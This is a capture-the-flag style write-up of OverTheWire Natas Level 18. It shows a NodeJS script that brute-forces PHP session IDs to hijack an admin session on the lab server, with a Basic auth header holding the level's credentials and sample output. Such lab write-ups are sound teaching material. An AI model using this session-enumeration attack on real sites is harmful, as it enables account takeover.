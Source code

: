 ```yaml
---
layout: post
title: natas-writeup - lv18-lv??
excerpt: "Writeup for the Natas wargame on overthewire.org, from Level 18 to ??."
categories: [writeup]
tags: [itsec, wargame]
---
```


[overthewire / natas](http://www.overthewire.org/wargames/natas/)

## Level 18 ##

In this level we're given access to the source behind `index.php`. I originally thought there might be something in the way user inputs were compared but no luck. 2 things caught my attention - the first being a comment on the maximum number of sessions: `$maxid = 640; // 640 should be enough for everyone `, followed by the snippet below:

{% highlight javascript %}
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true; 
{% endhighlight %}

Which seems to indicate some sessions would already have the `admin` flag set - so why not iterate through all 640 of them and see if the flag is set correctly somewhere?

I fired up Burp Intruder but given I only have the community edition, which throttles requests, it turned out to be faster to write the NodeJS snippet below:


{% highlight javascript %}
const got = require('got');

const sessionIds = [...Array(641).keys()]; // there are 640
sessionIds.forEach( (sessionId) => {
  got.get('http://natas18.natas.labs.overthewire.org/index.php?debug', {                                             headers: {                                                                                                         'Authorization': 'Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==',
      'Cookie': `PHPSESSID=${sessionId}`}}).then(resp =>
      {
        if (resp.body.includes('You are an admin')) {
          console.log(`sessionId: ${sessionId} + ${resp.body}`);
        }
      });                                                                                                        });
{% endhighlight %}

And soon enough:

```
sessionId: 119 + <html>
<head>
...
<div id="content">
DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br>
...
```
